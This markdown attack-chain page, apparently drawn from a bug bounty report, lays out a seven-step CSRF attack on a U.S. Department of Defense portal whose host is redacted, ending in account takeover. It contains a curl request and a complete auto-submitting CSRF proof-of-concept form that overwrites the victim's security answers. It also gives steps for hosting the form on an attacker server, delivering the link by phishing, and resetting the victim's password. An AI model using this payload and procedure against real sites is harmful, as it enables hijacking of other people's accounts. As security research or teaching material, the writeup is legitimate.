

# CSRF on Security Questions Update Leading to Account Takeover

Multi-stage attack chain demonstrating exploitation of a CSRF vulnerability in a U.S. Department of Defense web application to change a victim's security questions and answers, enabling a subsequent password reset for full account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 7 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web application (DoD portal at https://www.███/)
- No specific ports required (HTTPS/443 implied)
- Attacker needs a server to host the CSRF PoC

### Initial Access Requirements

- Attacker must create an account on the target site
- Victim must be authenticated to the target site
- Network access to the target's web application
- Phishing capability to deliver the malicious link to the victim

## Detailed Attack Procedures

### Step 1: Create an Account on the Target Website
procedure: [[procedures/Intercept-Security-Questions-Update-Request]]

**Objective**: Establish a foothold by registering an account to perform legitimate actions for reconnaissance.

**Instructions**: Navigate to the registration page and create a new account using valid details.

**Expected Output**: Successful account creation with login credentials.

**Success Indicators**:
- Account registered at https://www.███/
- Able to log in and access member areas

### Step 2: Intercept the Security Questions Update Request
procedure: [[procedures/Intercept-Security-Questions-Update-Request]]

**Objective**: Capture the legitimate POST request to identify the lack of CSRF protection.

**Instructions**: Log in, go to the security questions update page, and use [[tools/Burp-Suite]] to intercept the request while submitting a form change. Execute [[commands/curl-update-security-questions]] to simulate the update:

```bash
curl -X POST https://www.███████/member/updatesecurityquestions \
  -H "Cookie: {YOUR-COOKIE}" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "security_questions1=1&security_question_answer1=temp&security_questions2=2&security_question_answer2=temp&security_questions3=3&security_question_answer3=temp&submit=Save"
```

**Expected Output**: 200 OK or redirect confirming update.

**Success Indicators**:
- Request intercepted showing no CSRF token
- Form parameters captured (e.g., security_questions1, answers)

### Step 3: Craft the CSRF Proof-of-Concept
procedure: [[procedures/Craft-CSFR-Proof-of-Concept]]

**Objective**: Generate a malicious HTML form that auto-submits to overwrite the victim's security answers.

**Instructions**: Using the intercepted request in [[tools/Burp-Suite]], generate the PoC HTML. Create the file with [[commands/html-csrf-poc]] content:

```bash
cat > csrf_poc.html << EOF
<html>
 <!-- CSRF PoC - generated by Burp Suite Professional -->
 <body>
 <form action="https://www.█████████/member/updatesecurityquestions" method="POST">
 <input type="hidden" name="security_questions1" value="1" />
 <input type="hidden" name="security_question_answer1" value="hacked" />
 <input type="hidden" name="security_questions2" value="2" />
 <input type="hidden" name="security_question_answer2" value="hacked" />
 <input type="hidden" name="security_questions3" value="3" />
 <input type="hidden" name="security_question_answer3" value="hacked" />
 <input type="hidden" name="submit" value="Save" />
 <input type="submit" value="Submit request" />
 </form>
 <script>
 history.pushState('', '', '/');
 document.forms[0].submit();
 </script>
 </body>
</html>
EOF
```

**Expected Output**: HTML file ready for hosting.

**Success Indicators**:
- PoC form includes hidden fields with attacker-controlled answers (e.g., 'hacked')
- JavaScript auto-submits the form

### Step 4: Host the CSRF PoC and Send to Victim
procedure: [[procedures/Host-and-Deliver-CSFR-PoC]]

**Objective**: Deploy the PoC on an attacker-controlled server and deliver the link to the victim via phishing.

**Instructions**: Upload the HTML file to a web server (e.g., Apache or Python SimpleHTTPServer) and obtain the URL. Send the link to the victim disguised as a legitimate message.

**Expected Output**: Accessible URL like http://attacker-server.com/csrf_poc.html.

**Success Indicators**:
- PoC hosted successfully
- Victim receives and clicks the link while authenticated to the target

### Step 5: Victim Visits Malicious Page Triggering CSRF
procedure: [[procedures/Trigger-CSFR-Attack-on-Victim]]

**Objective**: Exploit the victim's authenticated session to submit the forged request.

**Instructions**: Victim loads the PoC page, which auto-submits the form to the target endpoint using their cookies.

**Expected Output**: Victim's security questions updated to attacker-known values without their knowledge.

**Success Indicators**:
- Browser submits POST to /member/updatesecurityquestions
- Attacker verifies by attempting forgot password (optional probe)

### Step 6: Initiate Password Reset Using Known Answers
procedure: [[procedures/Initiate-Password-Reset-with-Known-Answers]]

**Objective**: Use the now-known security answers to bypass reset protections.

**Instructions**: Navigate to the forgot password page, enter the victim's email, select 'On Screen Reset', and provide answers like 'hacked' for each question.

**Expected Output**: Access to password change form.

**Success Indicators**:
- Security questions answered correctly
- Redirect to password reset interface

### Step 7: Change Victim's Password for Takeover
procedure: [[procedures/Complete-Account-Takeover-via-Password-Change]]

**Objective**: Set a new password to gain persistent control of the account.

**Instructions**: In the reset form, enter a new password controlled by the attacker and submit.

**Expected Output**: Password updated successfully; login with new credentials.

**Success Indicators**:
- Confirmation of password change
- Full access to victim's account features

## Attack Chain Summary

### Key Achievements

1. Identified and exploited missing CSRF token in sensitive endpoint
2. Overwrote victim's security answers without direct interaction
3. Bypassed password recovery to achieve account takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Valid Accounts]] Valid Accounts

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Lateral Movement]] Lateral Movement

---

*Last updated: 2023-10-01T00:00:00Z*
